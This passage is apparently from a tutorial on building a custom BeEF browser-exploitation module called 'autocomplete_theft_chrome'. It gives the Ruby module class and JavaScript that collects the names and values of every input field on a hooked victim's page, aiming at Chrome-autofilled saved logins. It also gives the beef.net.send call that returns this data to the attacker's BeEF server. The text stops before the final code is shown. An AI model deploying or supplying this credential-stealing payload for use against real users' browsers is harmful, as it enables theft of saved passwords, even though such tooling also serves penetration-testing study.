 For this module, we don't really need to have any options since we are just taking values from all input fields. 

So we first modify the top of the file to change the name of the module:

```rb
class Autocomplete_theft_chrome < BeEF::Core::Command
```

the name here must be the capitalized version of the name in the config file (autocomplete_theft_chrome -> Autocomplete_theft_chrome)

We delete the options function, because we don't need it.

Then we leave the post_execute as it is, because we do want to store the results.

The final file would look like this:

```rb
class Autocomplete_theft_chrome < BeEF::Core::Command

        def post_execute
                content = {}
                content['results'] = @datastore['results']
                save content
        end

end
```

## Javascript to execute on hooked browser: command.js

After that, we will now look at what we need to execute in the hooked browser to get what we want sent back to BeEF.

For a brief example, this piece of Javascript logs all input form name and values into the console:

```js
for (x of document.querySelectorAll("input")) { 
    console.log(x.name + ":" + x.value);
}
```

You can test this in the developer console of Chrome, on a website that you saved your login on. 

Now we just need to send the results back to BeEF.

the `beef.execute(function() {}` is the function that will run when a module is executed. 

### Sending data back to BeEF

this is how we send data back to beef

```js
beef.net.send("<%= @command_url %>", <%= @command_id %>, "data");
```

The data we want to send, in this case, is all the input name:value pairs. So, instead of using `console.log`, we append all the data into a big string.
